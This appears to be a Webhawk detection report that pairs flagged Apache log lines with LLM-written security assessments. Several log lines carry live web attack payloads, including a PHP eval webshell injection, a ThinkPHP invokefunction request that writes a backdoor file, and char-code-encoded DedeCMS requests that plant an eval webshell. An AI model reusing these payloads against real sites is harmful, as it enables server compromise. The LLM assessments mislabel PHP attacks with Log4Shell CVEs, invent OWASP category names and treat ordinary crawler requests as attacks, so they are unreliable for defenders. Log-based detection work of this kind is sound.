

Webhawk Catch ReportUnsupervised learning Web logs/OS processes attack detection. Date: 06/03/26 at 18:01:37 GMTLog file: ./SAMPLE_DATA/RAW_APACHE_LOGS/access.log.2021-10-22 Log type: apache logs Findings: 29 |
 |
| Severity | Related CVE(s) | Line# | LLM Insights(gemma3:4b) | Log line |
| High | No CVE found | 317 | ```json { "potential_attack_attempt": true, "details": "The request attempts to upload a file via a potentially vulnerable ASP connector. The URL includes parameters that could be exploited, such as CurrentFolder=%2F, which could lead to directory traversal vulnerabilities. The request is returning a 404 status code, but the attempt itself warrants investigation.", "severity": "medium", "CVE": [], "recommendation": "Review the connector.asp file for vulnerabilities, implement strict file upload validation (including file type, size, and content), and ensure proper directory traversal protection to prevent unauthorized access to system files. Monitor for similar requests.", "owasp": [ "A03:2021-Injection", "A07:2021-Broken Access Control", "A08:2021-Insecure Deserialization" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:04 -0700] "POST /FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=FileUpload&Type=File&CurrentFolder=%2F HTTP/1.1" 404 328 "http://www.secrepo.com/FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=FileUpload&Type=File&CurrentFolder=%2F" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | No CVE found | 318 | ```json { "potential_attack_attempt": true, "details": "The request contains potentially exploitable parameters within the URL, specifically targeting the 'register' action. While a 404 error was returned, the request structure raises concerns about potential vulnerabilities, particularly if the site is not properly sanitizing input. The presence of 'siteid' in the URL suggests a possible attempt to target specific users or systems.", "severity": "medium", "CVE": [], "recommendation": "Implement robust input validation and sanitization on all user-supplied data, including the 'm', 'c', 'a', and 'siteid' parameters. Review the application's logic to ensure proper handling of user-provided values. Conduct thorough penetration testing to identify and address any underlying vulnerabilities. Consider using a web application firewall (WAF) to mitigate potential attacks.", "owasp": [ "A03:2021-Injection", "A04:2021-Broken Access Control", "A07:2021-Insecure Deserialization" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:04 -0700] "GET /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1" 404 305 "http://www.secrepo.com/index.php?m=member&c=index&a=register&siteid=1" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | CVE-2021-44230
CVE-2021-44228 |
324 | ```json { "potential_attack_attempt": true, "details": "The request appears to be a PHP shell injection attempt. The URL contains a suspicious string `ysy` and uses `eval()` which is a known vulnerability. The presence of `refiles[0]` and `refiles[1]` suggests an attempt to manipulate input.", "severity": "high", "CVE": [ "CVE-2021-44228", "CVE-2021-44230" ], "recommendation": "Immediately block this URL. Review and patch the PHP application to remove the use of `eval()` and implement robust input validation and sanitization. Implement a Web Application Firewall (WAF) to detect and block similar requests.", "owasp": [ "A03:2021-Injection", "A05:2021-BrokenAccessControl", "A07:2021-InsecureDecryption" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:06 -0700] "GET /uploads/dede/sys_verifies.php?action=getfiles&refiles%5B0%5D=123&refiles%5B1%5D=%5C%22#eval($_POST%5Bysy%5D)#die()#// HTTP/1.1" 418 746 "http://www.secrepo.com/uploads/dede/sys_verifies.php?action=getfiles&refiles[0]=123&refiles[1]=\\%22#eval($_POST[ysy])#die()#//" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | CVE-2021-44233 CVE-2021-44228 |
329 | ```json { "potential_attack_attempt": true, "details": "The request contains a potentially malicious PHP code injection attempt targeting the 'think' template driver. The URL includes parameters suggesting a file upload vulnerability and uses `mb_ereg_replace` with potentially unsafe user-supplied input, allowing for arbitrary code execution.", "severity": "high", "CVE": [ "CVE-2021-44228", "CVE-2021-44233" ], "recommendation": "Immediately patch the vulnerable application to the latest version. Implement strict input validation and sanitization on all user-supplied data. Disable or restrict access to the 'think' template driver. Monitor for suspicious activity and implement a Web Application Firewall (WAF) to block malicious requests.", "owasp": [ "A03:2021-Injection", "A05:2021-BrokenAccessControl", "A07:2021-InsecureDecryption" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:07 -0700] "GET /?s=index/%5Cthink%5Ctemplate%5Cdriver%5Cfile/write&cacheFile=ppeeu.php&content=%3C?php%20mb_ereg_replace('.*'#@$_REQUEST%5B_%5D#%20''#%20'e')#?%3E HTTP/1.1" 418 746 "http://www.secrepo.com/?s=index/\\think\\template\\driver\\file/write&cacheFile=ppeeu.php&content=" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | No CVE found | 333 | ```json { "potential_attack_attempt": true, "details": "The request contains a potentially malicious URL parameter used to execute arbitrary PHP code. The URL includes a `file_put_contents` function call and a regular expression replacement, likely for command injection or code execution. The presence of `txual.php` suggests a possible attempt to access a specific file or execute code from it.", "severity": "high", "CVE": [], "recommendation": "Immediately block this URL. Implement strict input validation and sanitization on all user-supplied data. Use a Web Application Firewall (WAF) to detect and mitigate similar attacks. Review and patch the vulnerable application to remove the vulnerable function calls and regular expressions.", "owasp": [ "A03:2021-Injection", "A07:2021-Insecure Deserialization", "A08:2021-Broken Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:08 -0700] "GET /?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars%5B0%5D=file_put_contents&vars%5B1%5D%5B%5D=txual.php&vars%5B1%5D%5B%5D=%3C?php%20mb_ereg_replace('.*'#@$_REQUEST%5B_%5D#%20''#%20'e')#?%3E$ HTTP/1.1" 418 746 "http://www.secrepo.com/?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=txual.php&vars[1][]=$" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | No CVE found | 335 | ```json {"potential_attack_attempt": true, "details": "The request contains a large number of parameters, including multiple arrays, which suggests a potential attempt to overwhelm the server or exploit vulnerabilities related to excessive input processing. The URL includes 'arrs1' and 'arrs2' parameters with numerous values, potentially attempting to bypass input validation or cause a denial-of-service. The presence of values like '99', '102', '114', and other numbers, combined with the array structure, could be indicative of a deliberate attempt to cause issues.", "severity": "high", "CVE": [], "recommendation": "Implement strict input validation and sanitization to limit the number and type of parameters accepted. Use parameterized queries or prepared statements to prevent SQL injection. Monitor server performance for signs of excessive resource consumption. Regularly audit the application's security to identify and address potential vulnerabilities.", "owasp": ["A03:2021-Injection", "A04:2021-BrokenAccessControl", "A07:2021-InsecureDecryption"]} ``` | 125.78.229.99 - - [22/Oct/2021:12:27:08 -0700] "GET /plus/mytag_js.php?dopost=saveedit&arrs1%5B%5D=99&arrs1%5B%5D=102&arrs1%5B%5D=103&arrs1%5B%5D=95&arrs1%5B%5D=100&arrs1%5B%5D=98&arrs1%5B%5D=112&arrs1%5B%5D=114&arrs1%5B%5D=101&arrs1%5B%5D=102&arrs1%5B%5D=105&arrs1%5B%5D=120&arrs2%5B%5D=109&arrs2%5B%5D=121&arrs2%5B%5D=116&arrs2%5B%5D=97&arrs2%5B%5D=103&arrs2%5B%5D=96&arrs2%5B%5D=32&arrs2%5B%5D=40&arrs2%5B%5D=97&arrs2%5B%5D=105&arrs2%5B%5D=100&arrs2%5B%5D=44&arrs2%5B%5D=110&arrs2%5B%5D=111&arrs2%5B%5D=114&arrs2%5B%5D=109&arrs2%5B%5D=98&arrs2%5B%5D=111&arrs2%5B%5D=100&arrs2%5B%5D=121&arrs2%5B%5D=41&arrs2%5B%5D=32&arrs2%5B%5D=86&arrs2%5B%5D=65&arrs2%5B%5D=76&arrs2%5B%5D=85&arrs2%5B%5D=69&arrs2%5B%5D=83&arrs2%5B%5D=40&arrs2%5B%5D=57&arrs2%5B%5D=48&arrs2%5B%5D=57&arrs2%5B%5D=48&arrs2%5B%5D=44&arrs2%5B%5D=39&arrs2%5B%5D=60&arrs2%5B%5D=63&arrs2%5B%5D=112&arrs2%5B%5D=104&arrs2%5B%5D=112&arrs2%5B%5D=32&arrs2%5B%5D=101&arrs2%5B%5D=99&arrs2%5B%5D=104&arrs2%5B%5D=111&arrs2%5B%5D=32&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=100&arrs2%5B%5D=101&arrs2%5B%5D=100&arrs2%5B%5D=101&arrs2%5B%5D=99&arrs2%5B%5D=109&arrs2%5B%5D=115&arrs2%5B%5D=32&arrs2%5B%5D=53&arrs2%5B%5D=46&arrs2%5B%5D=55&arrs2%5B%5D=32&arrs2%5B%5D=48&arrs2%5B%5D=100&arrs2%5B%5D=97&arrs2%5B%5D=121&arrs2%5B%5D=60&arrs2%5B%5D=98&arrs2%5B%5D=114&arrs2%5B%5D=62&arrs2%5B%5D=103&arrs2%5B%5D=117&arrs2%5B%5D=105&arrs2%5B%5D=103&arrs2%5B%5D=101&arrs2%5B%5D=44&arrs2%5B%5D=32&arrs2%5B%5D=57&arrs2%5B%5D=48&arrs2%5B%5D=115&arrs2%5B%5D=101&arrs2%5B%5D=99&arrs2%5B%5D=46&arrs2%5B%5D=111&arrs2%5B%5D=114&arrs2%5B%5D=103&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=59&arrs2%5B%5D=64&arrs2%5B%5D=112&arrs2%5B%5D=114&arrs2%5B%5D=101&arrs2%5B%5D=103&arrs2%5B%5D=95&arrs2%5B%5D=114&arrs2%5B%5D=101&arrs2%5B%5D=112&arrs2%5B%5D=108&arrs2%5B%5D=97&arrs2%5B%5D=99&arrs2%5B%5D=101&arrs2%5B%5D=40&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=47&arrs2%5B%5D=91&arrs2%5B%5D=99&arrs2%5B%5D=111&arrs2%5B%5D=112&arrs2%5B%5D=121&arrs2%5B%5D=114&arrs2%5B%5D=105&arrs2%5B%5D=103&arrs2%5B%5D=104&arrs2%5B%5D=116&arrs2%5B%5D=93&arrs2%5B%5D=47&arrs2%5B%5D=101&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=44&arrs2%5B%5D=36&arrs2%5B%5D=95&arrs2%5B%5D=82&arrs2%5B%5D=69&arrs2%5B%5D=81&arrs2%5B%5D=85&arrs2%5B%5D=69&arrs2%5B%5D=83&arrs2%5B%5D=84&arrs2%5B%5D=91&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=103&arrs2%5B%5D=117&arrs2%5B%5D=105&arrs2%5B%5D=103&arrs2%5B%5D=101&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=93&arrs2%5B%5D=44&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=101&arrs2%5B%5D=114&arrs2%5B%5D=114&arrs2%5B%5D=111&arrs2%5B%5D=114&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=41&arrs2%5B%5D=59&arrs2%5B%5D=63&arrs2%5B%5D=62&arrs2%5B%5D=39&arrs2%5B%5D=41&arrs2%5B%5D=59&arrs2%5B%5D=0 HTTP/1.1" 404 305 "http://www.secrepo.com/plus/mytag_js.php?dopost=saveedit&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=57&arrs2[]=48&arrs2[]=44&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=99&arrs2[]=109&arrs2[]=115&arrs2[]=32&arrs2[]=53&arrs2[]=46&arrs2[]=55&arrs2[]=32&arrs2[]=48&arrs2[]=100&arrs2[]=97&arrs2[]=121&arrs2[]=60&arrs2[]=98&arrs2[]=114&arrs2[]=62&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=44&arrs2[]=32&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=111&arrs2[]=114&arrs2[]=103&arrs2[]=39&arrs2[]=39&arrs2[]=59&arrs2[]=64&arrs2[]=112&arrs2[]=114&arrs2[]=101&arrs2[]=103&arrs2[]=95&arrs2[]=114&arrs2[]=101&arrs2[]=112&arrs2[]=108&arrs2[]=97&arrs2[]=99&arrs2[]=101&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=47&arrs2[]=91&arrs2[]=99&arrs2[]=111&arrs2[]=112&arrs2[]=121&arrs2[]=114&arrs2[]=105&arrs2[]=103&arrs2[]=104&arrs2[]=116&arrs2[]=93&arrs2[]=47&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=36&arrs2[]=95&arrs2[]=82&arrs2[]=69&arrs2[]=81&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=39&arrs2[]=39&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=93&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=101&arrs2[]=114&arrs2[]=114&arrs2[]=111&arrs2[]=114&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=0" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | No CVE found | 336 | ```json {"potential_attack_attempt": true, "details": "The URL contains a large number of parameters, including multiple arrays named 'arrs1' and 'arrs2', which could be used to exploit vulnerabilities in the download script. The high volume of data combined with specific numeric values suggests a potential attempt to overload the server or inject malicious data. The use of 'open=1' indicates an attempt to initiate a download.", "severity": "high", "CVE": [], "recommendation": "Implement strict input validation and sanitization for all user-supplied data, particularly when constructing URLs. Utilize parameterized queries to prevent SQL injection. Limit the size and complexity of uploaded files. Implement rate limiting to mitigate potential denial-of-service attacks.", "owasp": ["A03:2021-Injection", "A04:2021-Broken Access Control", "A07:2021-Cross-Site Scripting", "A08:2021-Insecure Deserialization"]} ``` | 125.78.229.99 - - [22/Oct/2021:12:27:09 -0700] "GET /plus/download.php?open=1&arrs1%5B%5D=99&arrs1%5B%5D=102&arrs1%5B%5D=103&arrs1%5B%5D=95&arrs1%5B%5D=100&arrs1%5B%5D=98&arrs1%5B%5D=112&arrs1%5B%5D=114&arrs1%5B%5D=101&arrs1%5B%5D=102&arrs1%5B%5D=105&arrs1%5B%5D=120&arrs2%5B%5D=109&arrs2%5B%5D=121&arrs2%5B%5D=97&arrs2%5B%5D=100&arrs2%5B%5D=96&arrs2%5B%5D=32&arrs2%5B%5D=83&arrs2%5B%5D=69&arrs2%5B%5D=84&arrs2%5B%5D=32&arrs2%5B%5D=96&arrs2%5B%5D=110&arrs2%5B%5D=111&arrs2%5B%5D=114&arrs2%5B%5D=109&arrs2%5B%5D=98&arrs2%5B%5D=111&arrs2%5B%5D=100&arrs2%5B%5D=121&arrs2%5B%5D=96&arrs2%5B%5D=32&arrs2%5B%5D=61&arrs2%5B%5D=32&arrs2%5B%5D=39&arrs2%5B%5D=60&arrs2%5B%5D=63&arrs2%5B%5D=112&arrs2%5B%5D=104&arrs2%5B%5D=112&arrs2%5B%5D=32&arrs2%5B%5D=102&arrs2%5B%5D=105&arrs2%5B%5D=108&arrs2%5B%5D=101&arrs2%5B%5D=95&arrs2%5B%5D=112&arrs2%5B%5D=117&arrs2%5B%5D=116&arrs2%5B%5D=95&arrs2%5B%5D=99&arrs2%5B%5D=111&arrs2%5B%5D=110&arrs2%5B%5D=116&arrs2%5B%5D=101&arrs2%5B%5D=110&arrs2%5B%5D=116&arrs2%5B%5D=115&arrs2%5B%5D=40&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=109&arrs2%5B%5D=111&arrs2%5B%5D=111&arrs2%5B%5D=110&arrs2%5B%5D=46&arrs2%5B%5D=112&arrs2%5B%5D=104&arrs2%5B%5D=112&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=44&arrs2%5B%5D=39&arrs2%5B%5D=39&arrs2%5B%5D=60&arrs2%5B%5D=63&arrs2%5B%5D=112&arrs2%5B%5D=104&arrs2%5B%5D=112&arrs2%5B%5D=32&arrs2%5B%5D=101&arrs2%5B%5D=118&arrs2%5B%5D=97&arrs2%5B%5D=108&arrs2%5B%5D=40&ar HTTP/1.1" 418 746 "http://www.secrepo.com/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=109&arrs2[]=111&arrs2[]=111&arrs2[]=110&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&ar" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| High | No CVE found | 378 | ```json { "potential_attack_attempt": true, "details": "A request originating from IP address 203.186.4.114 made a HEAD request to / with a user agent identified as Dragonbot. While not directly exploitable, this request warrants investigation due to the unusual user agent and potential for automated scanning or reconnaissance. The response code 200 indicates the request was successful, but further analysis is needed to determine if this is legitimate activity.", "severity": "medium", "CVE": [], "recommendation": "Monitor the IP address 203.186.4.114 for suspicious activity. Investigate the user agent 'Dragonbot' to understand its purpose and legitimacy. Implement rate limiting to mitigate potential brute-force attacks. Review web server logs for similar requests.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A06:2021-Vulnerable_and_Outdated_Software", "A07:2021-Identification_and_Authentication_Containment"] } ``` | 203.186.4.114 - - [22/Oct/2021:14:21:53 -0700] "HEAD / HTTP/1.1" 200 388 "-" "Mozilla/5.0 (Windows NT 10.0# Win64# x64) AppleWebKit/537.36 (KHTML# like Gecko) Chrome/79.0.3945.130 Safari/537.36# Dragonbot# http://www.dragonmetrics.com" |
| Medium | No CVE found | 58 | ```json { "potential_attack_attempt": true, "details": "\"GET /honeypot//%22http://amunhoney.sourceforge.net//%22 HTTP/1.1\" request with a suspicious URL pattern, potentially attempting to access a honeypot. The 'MJ12bot' user agent is also noteworthy for its reconnaissance capabilities.", "severity": "medium", "CVE": [], "recommendation": "Implement strict URL validation to prevent access to potentially malicious URLs. Monitor for suspicious user agents and honeypot access attempts. Ensure the honeypot is properly configured to log all access attempts.", "owasp": [ "A01:2021-Sensitive Information Disclosure", "A03:2021-Injection", "A07:2021-Cross-Site Scripting" ] } ``` | 71.13.87.122 - - [22/Oct/2021:04:54:44 -0700] "GET /honeypot//%22http://amunhoney.sourceforge.net//%22 HTTP/1.1" 404 250 "-" "Mozilla/5.0 (compatible# MJ12bot/v1.4.8# http://mj12bot.com/)" |
| Medium | No CVE found | 59 | ```json {"potential_attack_attempt": true, "details": "The request contains potentially malicious characters and a URL, suggesting a possible reconnaissance attempt or a probing for vulnerabilities. The URL includes characters that could be used for URL manipulation or injection. The user agent 'Mozilla/5.0 (compatible; MJ12bot/v1.4.8; http://mj12bot.com/)' is a known bot.", "severity": "medium", "CVE": [], "recommendation": "Review the application's logic to ensure proper input validation and sanitization. Monitor access logs for similar requests and investigate any suspicious activity. Implement a web application firewall (WAF) to mitigate potential attacks.", "owasp": ["A01:2021-Injection", "A06:2021-Security C0012-Broken Access Control", "A07:2021-Cross-Site Scripting"]} ``` | 71.13.87.122 - - [22/Oct/2021:04:54:48 -0700] "GET /honeypot//%22http://glastopf.org//%22 HTTP/1.1" 404 284 "-" "Mozilla/5.0 (compatible# MJ12bot/v1.4.8# http://mj12bot.com/)" |
| Medium | No CVE found | 60 | ```json {"potential_attack_attempt": true, "details": "The request contains a potentially malicious URI including 'http://www.maxmind.com//' and '%22', which could be used in a URL redirection attempt or to exploit a vulnerability related to external resource access. The 404 status code indicates a failed resource request, but the presence of the URI warrants investigation.", "severity": "medium", "CVE": [], "recommendation": "Implement strict URI validation and sanitization to prevent the inclusion of potentially malicious URLs. Regularly review access logs for suspicious patterns and analyze the request source IP address.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A03:2021-Injection"]} ``` | 71.13.87.122 - - [22/Oct/2021:04:54:52 -0700] "GET /honeypot//%22http://www.maxmind.com/%22 HTTP/1.1" 404 284 "-" "Mozilla/5.0 (compatible# MJ12bot/v1.4.8# http://mj12bot.com/)" |
| Medium | No CVE found | 61 | ```json { "potential_attack_attempt": true, "details": "The request contains a URL encoded string that attempts to access a URL from Twitter. The attempt to access a URL from a bot is considered suspicious and could be part of a reconnaissance attempt or a more targeted attack. The 404 status indicates the resource was not found, but the request itself warrants investigation.", "severity": "medium", "CVE": [], "recommendation": "Monitor for similar requests originating from the same IP address. Investigate the bot's behavior and its potential purpose. Implement URL validation and sanitization to prevent the execution of potentially malicious URLs. Consider rate limiting requests from unknown or suspicious sources.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A06:2021-Vulnerable_and_Outdated_Software"] } ``` | 71.13.87.122 - - [22/Oct/2021:04:54:55 -0700] "GET /honeypot//%22https://twitter.com/sooshie/%22 HTTP/1.1" 404 284 "-" "Mozilla/5.0 (compatible# MJ12bot/v1.4.8# http://mj12bot.com/)" |
| Medium | No CVE found | 62 | ```json {"potential_attack_attempt": true, "details": "The request contains a potentially malicious URL encoded as '%22https://twitter.com/theroxyd/%22. The URL is attempting to access twitter.com and may be a reconnaissance attempt or a phishing attempt. The use of 'MJ12bot' suggests a bot may be scanning for vulnerabilities.", "severity": "medium", "CVE": [], "recommendation": "Review the request logging to identify suspicious activity, implement URL filtering, and educate users about phishing attacks. Monitor for similar requests from the same IP address.", "owasp": ["A01:2021-Injection", "A06:2021-Security Codenames", "A07:2021-Cross-Site Scripting"]} ``` | 71.13.87.122 - - [22/Oct/2021:04:54:59 -0700] "GET /honeypot//%22https://twitter.com/theroxyd/%22 HTTP/1.1" 404 284 "-" "Mozilla/5.0 (compatible# MJ12bot/v1.4.8# http://mj12bot.com/)" |
| Medium | No CVE found | 210 | ```json {"potential_attack_attempt": false, "details": "The request for /sites/all/libraries/elfinder/elfinder.php.html resulted in a 404 Not Found error. While not directly an attack, this could indicate a misconfigured web application or a malicious actor attempting to probe for existing files or vulnerabilities. The user agent suggests a Chrome browser on Windows 10.", "severity": "low", "CVE": [], "recommendation": "Verify the correct configuration of the web application and its files. Ensure that the /sites/all/libraries/elfinder/ directory exists and contains the expected files. Investigate if the request was legitimate or part of a reconnaissance activity.", "owasp": ["A01:2021-Sensitive_Data_Exposure", "A06:2021-Insecure_Configuration"]} ``` | 44.195.86.98 - - [22/Oct/2021:10:25:26 -0700] "GET /sites/all/libraries/elfinder/elfinder.php.html HTTP/1.1" 404 328 "-" "Mozilla/5.0 (Windows NT 10.0# Win64# x64) AppleWebKit/537.36 (KHTML# like Gecko) Chrome/85.0.4183.102 Safari/537.36" |
| Medium | No CVE found | 580 | ```json {"potential_attack_attempt": true, "details": "The request for signatures.html resulted in a 404 error. While not a direct attack, it could indicate a misconfigured server, a vulnerability exploitation attempt, or a reconnaissance activity. The presence of 'Network/' in the URL suggests a potential interest in network-related data.", "severity": "medium", "CVE": [], "recommendation": "Review the application's routing configuration to ensure the /Datasets%20Description/Network/signatures.html endpoint exists and is correctly mapped. Investigate the source of the request (173.231.60.198) to determine if it is legitimate or part of an attack.", "owasp": ["A01:2021-Sensitive Data Exposure", "A06:2021-Security Logging and Monitoring", "A07:2021-Identification and Authentication"]} ``` | 173.231.60.198 - - [22/Oct/2021:23:32:58 -0700] "GET /Datasets%20Description/Network/signatures.html HTTP/1.1" 404 291 "http://www.secrepo.com/" "Mozilla/5.0 (compatible# Adsbot/3.1# +https://seostar.co/robot/)" |
| Medium | No CVE found | 624 | ```json { "potential_attack_attempt": true, "details": "The request attempts to access a file at a FTP location (/dataset/) which returns a 404 error. While not directly an attack, this could be a reconnaissance attempt to identify accessible resources or a probe for vulnerabilities. The user-agent suggests a recent version of Chrome. The request URL might be attempting to access potentially sensitive data.", "severity": "medium", "CVE": [], "recommendation": "Monitor access to the FTP server and related files for unauthorized attempts. Investigate the root cause of the 404 error. Implement access controls to restrict access to sensitive files. Regularly review security configurations.", "owasp": [ "A03:2021-Injection", "A01:2021-Sensitive_Data_Exposure" ] } ``` | 196.18.229.118 - - [23/Oct/2021:02:11:30 -0700] "GET /ftp://download.iwlab.foi.se/dataset/ HTTP/1.1" 404 328 "http://www.secrepo.com/" "Mozilla/5.0 (Macintosh# Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML# like Gecko) Chrome/67.0.3396.87 Safari/537.36" |
| Medium | No CVE found | 319 | ```json { "potential_attack_attempt": true, "details": "The request to /admin_aspcms/_system/AspCms_SiteSetting.asp resulted in a 404 error. This could indicate a misconfiguration, a missing file, or a potential vulnerability if the application is attempting to execute this file. The request originates from a potentially malicious IP address (125.78.229.99) and is attempting to access an administrative interface, increasing the risk. The user agent (Mozilla/5.0) is a common one, but the attempt itself is suspicious.", "severity": "high", "CVE": [ "None found" ], "recommendation": "Investigate the cause of the 404 error. Ensure the AspCms_SiteSetting.asp file exists and is accessible. Review access controls to the /admin_aspcms/_system/ directory. Implement strict access controls to prevent unauthorized access to administrative interfaces. Monitor the IP address 125.78.229.99 for further suspicious activity.", "owasp": [ "A01:2017-Sensitive Data Exposure", "A03:2021-Injection", "A07:2013-Identification and Authentication", "A08:2013-Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:05 -0700] "POST /admin_aspcms/_system/AspCms_SiteSetting.asp HTTP/1.1" 404 305 "http://www.secrepo.com/admin_aspcms/_system/AspCms_SiteSetting.asp" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
| Medium | No CVE found | 321 | ```json { "potential_attack_attempt": true, "details": "The request to 'plus/90sec.php' with the IP address 125.78.229.99 is flagged as potentially suspicious. The HTTP status code 418 (I'm a teapot) is atypical for this endpoint and suggests a possible attempt to exploit a vulnerability. The user agent 'Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)' may indicate a known vulnerability or an attempt to mimic a legitimate user.", "severity": "high", "CVE": [ "Unknown" ], "recommendation": "Immediately investigate the 'plus/90sec.php' script for vulnerabilities. Implement strict input validation and sanitization. Consider blocking the IP address 125.78.229.99. Monitor the script for unusual activity. Review the HTTP status code 418 for legitimate business reasons.", "owasp": [ "A03:2021-Injection", "A07:2021-Cross-Site Scripting", "A08:2021-Broken Access Control" ] } ``` | 125.78.229.99 - - [22/Oct/2021:12:27:05 -0700] "POST /plus/90sec.php HTTP/1.1" 418 746 "http://www.secrepo.com/plus/90sec.php" "Mozilla/5.0 (compatible# MSIE 10.0# Windows NT 6.2)" |
